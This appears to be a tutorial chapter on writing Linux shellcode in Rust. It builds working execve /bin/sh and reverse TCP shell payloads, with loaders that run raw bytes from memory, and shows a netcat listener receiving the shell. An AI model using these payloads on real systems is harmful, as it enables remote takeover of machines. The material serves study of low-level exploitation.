


# Writing shellcodes in Rust

Because my first computer had only 1GB of RAM (an Asus EeePC), my hobbies were very low-level and non-resources intensive.

One of those hobbies was crafting shellcodes. Not for offensive hacking or whatever, but just for the art of writing x86 assembly. You can spend an enormous amount of time crafting shellcodes: ASCII shellcodes (shellcodes where the final hexadecimal representation is comprised of only bytes of the [ASCII](https://man7.org/linux/man-pages/man7/ascii.7.html) table), polymorphic shellcodes (shellcodes that can re-write themselves and thus reduce detection and slow down reverse engineering...). Like with poesy, your imagination is the limit.


## What is a shellcode

The goal of an exploit is to execute code. A shellcode is the raw code being executed on the exploited machine.


But there is a problem: writing shellcodes is usually done directly in assembly. It gives you absolute control over what you are crafting, but the drawback is that it requires a lot of knowledge, is hard to debug, is absolutely not portable across architectures, and is a nightmare to reuse and maintain over time and across teams of multiple developers.


Here is an example of shellcode:

```default
488d35140000006a01586a0c5a4889c70f056a3c5831ff0f05ebfe68656c6c6f20776f726c640a
```

You didn't understand? It's Normal. This hex representation is of no help.

But, by writing it to a file:
```bash
$ echo '488d35140000006a01586a0c5a4889c70f056a3c5831ff0f05ebfe68656c6c6f20776f726c640a' | xxd -r -p > shellcode.bin
```

and disassembling it:

```bash
$ objdump -D -b binary -mi386 -Mx86-64 -Mintel shellcode.bin

shellcode.bin:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:   48 8d 35 14 00 00 00    lea    rsi,[rip+0x14]        # 0x1b
   7:   6a 01                   push   0x1
   9:   58                      pop    rax
   a:   6a 0c                   push   0xc
   c:   5a                      pop    rdx
   d:   48 89 c7                mov    rdi,rax
  10:   0f 05                   syscall           # <- write(1, "hello world\n", 12)
  12:   6a 3c                   push   0x3c
  14:   58                      pop    rax
  15:   31 ff                   xor    edi,edi
  17:   0f 05                   syscall           # <- exit
  19:   eb fe                   jmp    0x19
  1b:   68 65 6c 6c 6f          push   0x6f6c6c65 # <- hello world\n
  20:   20 77 6f                and    BYTE PTR [rdi+0x6f],dh
  23:   72 6c                   jb     0x91
  25:   64                      fs
  26:   0a                      .byte 0xa
```

It reveals an actual piece of code, that is basically doing:
```c
write(STOUDT, "hello world\n", 12);
exit(0);
```

But, being raw intel `x86_64` code, it can't be executed as is by an operating system. It needs to be wrapped in an executable.

## Sections of an executable



All executables (a file we call a program) are divided into multiple sections. The purpose of these sections is to store different kinds of metadata (such as the architecture supported by the executable, a table to point to the different sections, and so on...), code (the `.text` section contains the compiled code), and the data (like strings).

Using multiple sections allows each section to have different characteristics. For example, the `.text` section is often marked as `RX` (Read-Execute) while the `.data` section as `R` (Read only). It permits enhancing security.


## Rust compilation process

In order to be executed by the operating system, the Rust toolchain needs to compile the source code into the final executable.

This process is roughly composed of 4 stages.




**Parsing and Macro expansion**: The first step of compilation is to [lex](https://doc.rust-lang.org/nightly/nightly-rustc/rustc_lexer/index.html) the source code and turn it into a stream of tokens. Then this stream of tokens is turned into and [Abstract Syntax Tree (AST)](https://en.wikipedia.org/wiki/Abstract_syntax_tree), macro are expanded into actual code, and the final AST is validated.

**Analysis**: The second step is to proceed to [type inference](https://rustc-dev-guide.rust-lang.org/type-inference.html), trait solving, and type checking. Then, the AST (actually an [High-Level Intermediate Representation (HIR), which is more compiler-friendly](https://doc.rust-lang.org/nightly/nightly-rustc/rustc_hir/index.html)) is turned into [Mid-Level Intermediate Representation (MIR)](https://rustc-dev-guide.rust-lang.org/overview.html) in order to do [borrow checking](https://rustc-dev-guide.rust-lang.org/borrow_check.html).

Then, Rust code is analyzed for optimizations and monomorphized (remember generics? It means making copies of all the generic code with the type parameters replaced by concrete types).

**Optimization and Code generation**: This is where [LLVM](https://llvm.org/) intervenes: the MIR is converted into LLVM Intermediate Representation (LLVM IR), and LLVM proceeds to do more optimization on it, and finally emits machine code (ELF object or wasm).


**linking**: Finally, all the objects files are assembled into the final executable thanks to a [linker](https://en.wikipedia.org/wiki/Linker_(computing)). If link-time optimizations are enabled, some more optimizations are done.


## `no_std`

By default, Rust assumes support for various features from the Operating System: threads, a memory allocator (for heap allocations), networking, and so on...

There are systems that do not provide these features or projects where you don't need all the features provided by the standard library and need to craft a binary as small as possible.

This is where the `#![no_std]` attribute comes into play. Simply put it at the top of your `main.rs` or `lib.rs`, and the compiler will understand that you don't want to use the standard library.


But, when using `#![no_std]`, you have to take care of everything that is normally handled by the standard library, such as starting the program. Indeed, only the [Rust Core](https://doc.rust-lang.org/core/) library can be used in an `#![no_std]` program / library.

Also, we have to add special compiler and linker instructions in `.cargo/config.toml`.

Here is a minimal `#![no_std]` program

**Cargo.toml**
```toml
[package]
name = "nostd"
version = "0.1.0"
edition = "2021"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]

[profile.dev]
panic = "abort"

[profile.release]
panic = "abort"
opt-level = "z"
lto = true
codegen-units = 1
```

**.cargo/config.toml**
```toml
[build]
rustflags = ["-C", "link-arg=-nostdlib", "-C", "link-arg=-static"]
```

**main.rs**
```rust
#![no_std]
#![no_main]
#![feature(start)]

// Entry point for this program
#[start]
fn start(_argc: isize, _argv: *const *const u8) -> isize {
    0
}

#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}
```

And then build the program with `cargo build`.


## Using assembly from Rust

Since Rust `1.59`, both inline assembly (`asm!`) and free form assembly (`global_asm!`) are available in the `stable` channel.

Here is a minimal example of a program using assembly:
**main.rs**
```rust
use core::arch::asm;

const SYS_WRITE: usize = 1;
const STDOUT: usize = 1;
static MESSAGE: &str = "hello world\n";

unsafe fn syscall3(scnum: usize, arg1: usize, arg2: usize, arg3: usize) -> usize {
    let ret: usize;
    asm!(
        "syscall",
        in("rax") scnum,
        in("rdi") arg1,
        in("rsi") arg2,
        in("rdx") arg3,
        out("rcx") _,
        out("r11") _,
        lateout("rax") ret,
        options(nostack),
    );
    ret
}

fn main() {
    unsafe {
        syscall3(
            SYS_WRITE,
            STDOUT,
            MESSAGE.as_ptr() as usize,
            MESSAGE.len() as usize,
        );
    };
}
```

That can be run with:
```bash
$ cargo run
Compiling asm v0.1.0 (asm)
    Finished dev [unoptimized + debuginfo] target(s) in 2.75s
     Running `target/debug/asm`
hello world
```


## The never type

the "never" type, represented as `!` in code represents computations which never resolve to any value at all. For example, the [exit](https://doc.rust-lang.org/std/process/fn.exit.html) function `fn exit(code: i32) -> !` exits the process without ever returning, and so returns `!`.

It is useful for creating shellcode, because our shellcodes will never return any value. They may `exit` to avoid brutal crashes, but their return value will never be used.


## Executing shellcodes

Executing code from memory in Rust is very dependant on the platform as all modern Operating Systems implement security measures to avoid it.

The following applies to Linux.

There are at least 3 ways to execute raw instructions from memory:

* By embedding the shellcode in the [`.text` section](https://en.wikipedia.org/wiki/Code_segment) of our program by using a special [attribute](https://doc.rust-lang.org/reference/attributes.html).
* By using the [mmap](https://crates.io/crates/mmap) crate and setting a memory-mapped area as `executable`.
* A third alternative not covered in this book is to use Linux's [mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html) function.


### Embedding a shellcode in the `.text` section

Embedding a shellcode in our program is easy thanks to the `include_bytes!` macro, but adding it to the `.text` section is a little bit tricky as, by default, only the reference to the buffer will be added to the `.text` section, and not the buffer itself which will be added to the `.rodata` section.

Thanks to `.len` being a [const function](https://doc.rust-lang.org/reference/const_eval.html#const-functions), the size of the buffer can be computed at compile-time, and we can allocate an array of the good size at compile-time too.

It can be achieved as follows:

**[ch_08/executor/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/executor/src/main.rs)**
```rust
use std::mem;

// we do this trick because otherwise only the reference is in the .text section
const SHELLCODE_BYTES: &[u8] = include_bytes!("../../shellcode.bin");
const SHELLCODE_LENGTH: usize = SHELLCODE_BYTES.len();

#[no_mangle]
#[link_section = ".text"]
static SHELLCODE: [u8; SHELLCODE_LENGTH] = *include_bytes!("../../shellcode.bin");

fn main() {
    let exec_shellcode: extern "C" fn() -> ! =
        unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
    exec_shellcode();
}
```


### Setting a memory-mapped area as executable

By using [mmap](https://man7.org/linux/man-pages/man2/mmap.2.html), we can set a buffer as executable and call it as if it were raw code.

```rust
use mmap::{
    MapOption::{MapExecutable, MapReadable, MapWritable},
    MemoryMap,
};
use std::mem;

// as the shellcode is not in the `.text` section but in `.rodata`, we can't execute it as it
const SHELLCODE: &[u8] = include_bytes!("../shellcode.bin");

fn main() {
    let map = MemoryMap::new(SHELLCODE.len(), &[MapReadable, MapWritable, MapExecutable]).unwrap();

    unsafe {
        // copy the shellcode to the memory map
        std::ptr::copy(SHELLCODE.as_ptr(), map.data(), SHELLCODE.len());
        let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.data());
        exec_shellcode();
    }
}
```


## Our linker script

Finally, to build a shellcode, we need to instruct the compiler (or, more precisely, the linker) what shape we want our binary to have.


**[ch_08/shellcode.ld](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/shellcode.ld)**
```default
ENTRY(_start);

SECTIONS
{
    . = ALIGN(16);
    .text :
    {
        *(.text.prologue)
        *(.text)
        *(.rodata)
    }
    .data :
    {
        *(.data)
    }

    /DISCARD/ :
    {
        *(.interp)
        *(.comment)
        *(.debug_frame)
    }
}
```


Then, we need to tell `cargo` to use this file:


**[ch_08/hello_world/.cargo/config.toml](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/hello_world/.cargo/config.toml)**

```toml
[build]
rustflags = ["-C", "link-arg=-nostdlib", "-C", "link-arg=-static", "-C", "link-arg=-Wl,-T../shellcode.ld,--build-id=none"]
```

## Hello world shellcode

Now we have all the boilerplate set up, let's craft our first shellcode: an Hello-World.

On Linux, we use [System calls](https://en.wikipedia.org/wiki/System_call) (abbreviated syscalls) to interact with the kernel, for example, to write a message or open a socket.

The first thing is to configure Cargo to optimize the output for minimal size.

**[ch_08/hello_world/Cargo.toml](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/hello_world/Cargo.toml)**
```toml
[profile.dev]
panic = "abort"

[profile.release]
panic = "abort"
opt-level = "z"
lto = true
codegen-units = 1
```

Then we need to declare all our boilerplate and constants:

**[ch_08/hello_world/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/hello_world/src/main.rs)**
```rust
#![no_std]
#![no_main]

use core::arch::asm;

#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}

const SYS_WRITE: usize = 1;
const SYS_EXIT: usize = 60;
const STDOUT: usize = 1;
static MESSAGE: &str = "hello world\n";
```

Then, we need to implement our syscalls functions. Remember that we are in a `no_std` environment, so we can use the standard library.

For that, we use inline assembly. If we wanted to make our shellcode cross-platform, we would have to re-implement only these functions as all the rest is architecture-independent.

```rust
unsafe fn syscall1(scnum: usize, arg1: usize) -> usize {
    let ret: usize;
    asm!(
        "syscall",
        in("rax") scnum,
        in("rdi") arg1,
        out("rcx") _,
        out("r11") _,
        lateout("rax") ret,
        options(nostack),
    );
    ret
}

unsafe fn syscall3(scnum: usize, arg1: usize, arg2: usize, arg3: usize) -> usize {
    let ret: usize;
    asm!(
        "syscall",
        in("rax") scnum,
        in("rdi") arg1,
        in("rsi") arg2,
        in("rdx") arg3,
        out("rcx") _,
        out("r11") _,
        lateout("rax") ret,
        options(nostack),
    );
    ret
}
```

Finally, the actual payload of our shellcode:
```rust
#[no_mangle]
fn _start() {
    unsafe {
        syscall3(
            SYS_WRITE,
            STDOUT,
            MESSAGE.as_ptr() as usize,
            MESSAGE.len() as usize,
        );

        syscall1(SYS_EXIT, 0)
    };
}
```

The shellcode can be compiled with:
**[ch_08/Makefile](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/Makefile)**
```makefile
hello_world:
    cd hello_world && cargo build --release
    strip -s hello_world/target/release/hello_world
    objcopy -O binary hello_world/target/release/hello_world shellcode.bin
```

And we can finally try it out!
```bash
$ make run_hello_world
```

Which builds the `executor` embedding our new shiny `shellcode.bin` and execute it!

We can inspect the actual shellcode with:
```bash
$ make dump_hello_world
Disassembly of section .data:

00000000 <.data>:
   0:   48 8d 35 14 00 00 00    lea    rsi,[rip+0x14]        # 0x1b
   7:   6a 01                   push   0x1
   9:   58                      pop    rax
   a:   6a 0c                   push   0xc
   c:   5a                      pop    rdx
   d:   48 89 c7                mov    rdi,rax
  10:   0f 05                   syscall
  12:   6a 3c                   push   0x3c
  14:   58                      pop    rax
  15:   31 ff                   xor    edi,edi
  17:   0f 05                   syscall
  19:   c3                      ret
  1a:   68 65 6c 6c 6f          push   0x6f6c6c65        # "hello world\n"
  1f:   20 77 6f                and    BYTE PTR [rdi+0x6f],dh
  22:   72 6c                   jb     0x90
  24:   64                      fs
  25:   0a                      .byte 0xa
```


## An actual shellcode

Now we know how to write raw code in Rust, let's build an actual shellcode, one that spawns a shell.

For that, we will use the [`execve`](https://man7.org/linux/man-pages/man2/execve.2.html) syscall, with `/bin/sh`.

A C version would be:
```c
#include <unistd.h>

int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;

        execve(args[0], args, NULL);
}
```


First, the boilerplate:
**[ch_08/shell/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/shell/src/main.rs)**
```rust
#![no_std]
#![no_main]

use core::arch::asm;

#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}
```

Then, the constants:
```rust
const SYS_EXECVE: usize = 59;
const SHELL: &str = "/bin/sh\x00";
const ARGV: [*const &str; 2] = [&SHELL, core::ptr::null()];
const NULL_ENV: usize = 0;
```

Our (unique) syscall function:
```rust
unsafe fn syscall3(syscall: usize, arg1: usize, arg2: usize, arg3: usize) -> usize {
    // ... same as above
}
```

And finally, the start function to wrap everything:
```rust
#[no_mangle]
fn _start() {
    unsafe {
        syscall3(SYS_EXECVE, SHELL.as_ptr() as usize, ARGV.as_ptr() as usize, NULL_ENV);
    };
}
```

Pretty straightforward, isn't it? Aaaand...

```bash
$ make run_shell
Illegal instruction (core dumped)
make: *** [Makefile:3: execute] Error 132
```

It doesn't work...


Let's investigate.

First, we disassemble the shellcode:
```bash
$  make dump_shell
# ...
Disassembly of section .data:

00000000 <.data>:
   0:   48 8d 3d 0f 00 00 00    lea    rdi,[rip+0xf]        # 0x16
   7:   48 8d 35 22 00 00 00    lea    rsi,[rip+0x22]        # 0x30
   e:   6a 3b                   push   0x3b
  10:   58                      pop    rax
  11:   31 d2                   xor    edx,edx
  13:   0f 05                   syscall
  15:   c3                      ret
  16:   2f                      (bad)          # "/bin/sh\x00"
  17:   62                      (bad)
  18:   69 6e 2f 73 68 00 00    imul   ebp,DWORD PTR [rsi+0x2f],0x6873
  1f:   00 16                   add    BYTE PTR [rsi],dl
  21:   00 00                   add    BYTE PTR [rax],al
  23:   00 00                   add    BYTE PTR [rax],al
  25:   00 00                   add    BYTE PTR [rax],al
  27:   00 08                   add    BYTE PTR [rax],cl
  29:   00 00                   add    BYTE PTR [rax],al
  2b:   00 00                   add    BYTE PTR [rax],al
  2d:   00 00                   add    BYTE PTR [rax],al
  2f:   00 20                   add    BYTE PTR [rax],ah
  31:   00 00                   add    BYTE PTR [rax],al
  33:   00 00                   add    BYTE PTR [rax],al
  35:   00 00                   add    BYTE PTR [rax],al
  37:   00 00                   add    BYTE PTR [rax],al
  39:   00 00                   add    BYTE PTR [rax],al
  3b:   00 00                   add    BYTE PTR [rax],al
  3d:   00 00                   add    BYTE PTR [rax],al
  3f:   00                      .byte 0x0
```

Other than the empty array, it looks rather good.

* at `0x17` we have the string `"/bin/sh\x00"`
* at `0x30` we have our `ARGV` array, which contains a reference to `0x00000020`, which itself is a reference to `0x00000017`, which is exactly what we wanted.


Let try with `gdb`:
```bash
$ gdb executor/target/debug/executor
(gdb) break executor::main
(gdb) run
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, executor::main () at src/main.rs:13
13              unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };]
```

```bash
(gdb) disassemble /r
Dump of assembler code for function executor::main:
   0x000055555555b730 <+0>:     48 83 ec 18     sub    $0x18,%rsp
=> 0x000055555555b734 <+4>:     48 8d 05 b1 ff ff ff    lea    -0x4f(%rip),%rax        # 0x55555555b6ec <SHELLCODE>
   0x000055555555b73b <+11>:    48 89 44 24 08  mov    %rax,0x8(%rsp)
   0x000055555555b740 <+16>:    48 8b 44 24 08  mov    0x8(%rsp),%rax
   0x000055555555b745 <+21>:    48 89 04 24     mov    %rax,(%rsp)
   0x000055555555b749 <+25>:    48 89 44 24 10  mov    %rax,0x10(%rsp)
   0x000055555555b74e <+30>:    48 8b 04 24     mov    (%rsp),%rax
   0x000055555555b752 <+34>:    ff d0   callq  *%rax
   0x000055555555b754 <+36>:    0f 0b   ud2
End of assembler dump.
```

```bash
(gdb) disassemble /r SHELLCODE
Dump of assembler code for function SHELLCODE:
   0x000055555555b6ec <+0>:     48 8d 3d 0f 00 00 00    lea    0xf(%rip),%rdi        # 0x55555555b702 <SHELLCODE+22>
   0x000055555555b6f3 <+7>:     48 8d 35 22 00 00 00    lea    0x22(%rip),%rsi        # 0x55555555b71c <SHELLCODE+48>
   0x000055555555b6fa <+14>:    6a 3b   pushq  $0x3b
   0x000055555555b6fc <+16>:    58      pop    %rax
   0x000055555555b6fd <+17>:    31 d2   xor    %edx,%edx
   0x000055555555b6ff <+19>:    0f 05   syscall
   0x000055555555b701 <+21>:    c3      retq
   0x000055555555b702 <+22>:    2f      (bad)
   0x000055555555b703 <+23>:    62      (bad)
   0x000055555555b704 <+24>:    69 6e 2f 73 68 00 00    imul   $0x6873,0x2f(%rsi),%ebp
   0x000055555555b70b <+31>:    00 16   add    %dl,(%rsi)
   0x000055555555b70d <+33>:    00 00   add    %al,(%rax)
   0x000055555555b70f <+35>:    00 00   add    %al,(%rax)
   0x000055555555b711 <+37>:    00 00   add    %al,(%rax)
   0x000055555555b713 <+39>:    00 08   add    %cl,(%rax)
   0x000055555555b715 <+41>:    00 00   add    %al,(%rax)
   0x000055555555b717 <+43>:    00 00   add    %al,(%rax)
   0x000055555555b719 <+45>:    00 00   add    %al,(%rax)
   0x000055555555b71b <+47>:    00 20   add    %ah,(%rax)
   0x000055555555b71d <+49>:    00 00   add    %al,(%rax)
   0x000055555555b71f <+51>:    00 00   add    %al,(%rax)
   0x000055555555b721 <+53>:    00 00   add    %al,(%rax)
   0x000055555555b723 <+55>:    00 00   add    %al,(%rax)
   0x000055555555b725 <+57>:    00 00   add    %al,(%rax)
   0x000055555555b727 <+59>:    00 00   add    %al,(%rax)
   0x000055555555b729 <+61>:    00 00   add    %al,(%rax)
   0x000055555555b72b <+63>:    00 0f   add    %cl,(%rdi)
End of assembler dump.
```


Hmmmmmm. We can see at offset `0x000055555555b71b` our `ARGV` array. But it sill points to `0x00000020`, and not `0x000055555555b70b`. In the same vein, `0x000055555555b70b` is still pointing to `0x00000016`, and not `0x000055555555b702` where the actual `"/bin/sh\x00"` string is.


This is because we used `const` variable. Rust will hardcode the offset, and they won't be valid when executing the shellcode. They are not **position independent**, which means they need to be run at fixed addresses in the memory (those addresses are computed at compile-time).


To fix that, we use local variables:
```rust
#[no_mangle]
fn _start() -> ! {
    let shell: &str = "/bin/sh\x00";
    let argv: [*const &str; 2] = [&shell, core::ptr::null()];

    unsafe {
        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, NULL_ENV);
    };

    loop {}
}
```


```bash
$ make dump_shell
Disassembly of section .data:

00000000 <.data>:
   0:   48 83 ec 20             sub    rsp,0x20
   4:   48 8d 3d 27 00 00 00    lea    rdi,[rip+0x27]        # 0x32
   b:   48 89 e0                mov    rax,rsp
   e:   48 89 38                mov    QWORD PTR [rax],rdi
  11:   48 8d 74 24 10          lea    rsi,[rsp+0x10]
  16:   48 89 06                mov    QWORD PTR [rsi],rax
  19:   48 83 66 08 00          and    QWORD PTR [rsi+0x8],0x0
  1e:   48 c7 40 08 08 00 00    mov    QWORD PTR [rax+0x8],0x8
  25:   00
  26:   6a 3b                   push   0x3b
  28:   58                      pop    rax
  29:   31 d2                   xor    edx,edx
  2b:   0f 05                   syscall
  2d:   48 83 c4 20             add    rsp,0x20
  31:   c3                      ret
  32:   2f                      (bad)
  33:   62                      (bad)
  34:   69                      .byte 0x69
  35:   6e                      outs   dx,BYTE PTR ds:[rsi]
  36:   2f                      (bad)
  37:   73 68                   jae    0xa1
  39:   00                      .byte 0x0
```

That's better, but still not perfect! Look at offset `2d`: the compiler is cleaning the stack as a normal function would do. But we are creating a shellcode. Those 4 bytes are useless!

This is where the never type comes into play:
```rust
#[no_mangle]
fn _start() -> ! {
    let shell: &str = "/bin/sh\x00";
    let argv: [*const &str; 2] = [&shell, core::ptr::null()];

    unsafe {
        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, NULL_ENV);
    };

    loop {}
}
```


```bash
$ make dump_shell
Disassembly of section .data:

00000000 <.data>:
   0:   48 83 ec 20             sub    rsp,0x20
   4:   48 8d 3d 24 00 00 00    lea    rdi,[rip+0x24]        # 0x2f
   b:   48 89 e0                mov    rax,rsp
   e:   48 89 38                mov    QWORD PTR [rax],rdi
  11:   48 8d 74 24 10          lea    rsi,[rsp+0x10]
  16:   48 89 06                mov    QWORD PTR [rsi],rax
  19:   48 83 66 08 00          and    QWORD PTR [rsi+0x8],0x0
  1e:   48 c7 40 08 08 00 00    mov    QWORD PTR [rax+0x8],0x8
  25:   00
  26:   6a 3b                   push   0x3b
  28:   58                      pop    rax
  29:   31 d2                   xor    edx,edx
  2b:   0f 05                   syscall
  2d:   eb fe                   jmp    0x2d
# before:
# 2d:   48 83 c4 20             add    rsp,0x20
# 31:   c3                      ret
  2f:   2f                      (bad)                       # "/bin/sh\x00"
  30:   62                      (bad)
  31:   69                      .byte 0x69
  32:   6e                      outs   dx,BYTE PTR ds:[rsi]
  33:   2f                      (bad)
  34:   73 68                   jae    0x9e
  36:   00                      .byte 0x0
```

Thanks to this little trick, the compiler turned `48 83 c4 20 c3` into `eb fe`. 3 bytes saved. From 57 to 54 bytes.


Another bonus of using stack variables is that now, our shellcode doesn't need to embed a whole, mostly empty array. The array is dynamically built on the stack as if we were crafting the shellcode by hand.


```bash
$ make run_shell
$ ls
Cargo.lock  Cargo.toml  src  target
$
```

It works!


You can also force Rust to produce position-independent code by choosing the [pic relocation model](https://doc.rust-lang.org/rustc/codegen-options/index.html#relocation-model).


## Reverse TCP shellcode

Finally, let see a more advanced shellcode, to understand where a high-level language really shines.

The shellcodes above could be crafted in a few lines of assembly.

A reverse TCP shellcode establishes a TCP connection to a server, spawns a shell, and forward STDIN, STOUT, and STDERR to the TCP stream. It allows an attacker with a remote exploit to take control of a machine.

Here is what it looks like in C:

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void main() {
  int sock = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(8042);

  inet_pton(AF_INET, "127.0.0.1", &sin.sin_addr.s_addr);

  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDERR_FILENO);

  char *argv[] = {"/bin/sh", NULL};
  execve(argv[0], argv, NULL);
}
```

And here is its assembly equivalent, that I found [on the internet](https://systemoverlord.com/2018/10/30/understanding-shellcode-the-reverse-shell.html):

```assembly
xor rdx, rdx
mov rsi, 1
mov rdi, 2
mov rax, 41
syscall


push 0x0100007f ; 127.0.0.1 == 0x7f000001
mov bx, 0x6a1f ; 8042 = 0x1f6a
push bx
mov bx, 0x2
push bx

mov rsi, rsp
mov rdx, 0x10
mov rdi, rax
push rax
mov rax, 42
syscall

pop rdi
mov rsi, 2
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall

push 0x68732f
push 0x6e69622f
mov rdi, rsp
xor rdx, rdx
push rdx
push rdi
mov rsi, rsp
mov rax, 59
syscall
```

🤯 🥴

I think I don't need further explanations about why a higher-level language is needed for advanced shellcodes.

Without further ado, let's start to port it to Rust.

First, our constants:

**[ch_08/reverse_tcp/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/reverse_tcp/src/main.rs)**
```rust
const PORT: u16 = 0x6A1F; // 8042
const IP: u32 = 0x0100007f; // 127.0.0.1

const SYS_DUP2: usize = 33;
const SYS_SOCKET: usize = 41;
const SYS_CONNECT: usize = 42;
const SYS_EXECVE: usize = 59;

const AF_INET: usize = 2;
const SOCK_STREAM: usize = 1;
const IPPROTO_IP: usize = 0;

const STDIN: usize = 0;
const STDOUT: usize = 1;
const STDERR: usize = 2;
```

Then, the `sockaddr_in` struct copied from `<netinet/in.h>`:
```rust
#[repr(C)]
struct sockaddr_in {
    sin_family: u16,
    sin_port: u16,
    sin_addr: in_addr,
    sin_zero: [u8; 8],
}

#[repr(C)]
struct in_addr {
    s_addr: u32,
}
```

And finally, logic of our program, which take some parts of the `shell` shellcode.
```rust
#[no_mangle]
fn _start() -> ! {
    let shell: &str = "/bin/sh\x00";
    let argv: [*const &str; 2] = [&shell, core::ptr::null()];

    let socket_addr = sockaddr_in {
        sin_family: AF_INET as u16,
        sin_port: PORT,
        sin_addr: in_addr { s_addr: IP },
        sin_zero: [0; 8], // initialize an emtpy array
    };
    let socket_addr_size = core::mem::size_of::<sockaddr_in>();

    unsafe {
        let socket_fd = syscall3(SYS_SOCKET, AF_INET, SOCK_STREAM, IPPROTO_IP);
        syscall3(
            SYS_CONNECT,
            socket_fd,
            &socket_addr as *const sockaddr_in as usize,
            socket_addr_size as usize,
        );

        syscall2(SYS_DUP2, socket_fd, STDIN);
        syscall2(SYS_DUP2, socket_fd, STDOUT);
        syscall2(SYS_DUP2, socket_fd, STDERR);

        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, 0);
    };

    loop {}
}
```

Way more digest, isn't it?


Let's try it:

In shell 1:
```bash
$ nc -vlnp 8042
Listening on 0.0.0.0 8042
```

In shell 2:
```bash
$ make run_tcp
```

And Bingo! We have our remote shell.


## Summary

* Only the [Rust Core](https://doc.rust-lang.org/core/) library can be used in an `#![no_std]` program / library
* A Shellcode in Rust is easy to port across different architecture, while in assembly, it's close to impossible
* The more complex a shellcode is, the more important it is to use a high-level language to craft it
* Shellcodes need to be position-independent
* When crafting a shellcode in Rust, use the stack instead of `const` arrays
* Use the never type and an infinite loop to save a few bytes when working with stack variables
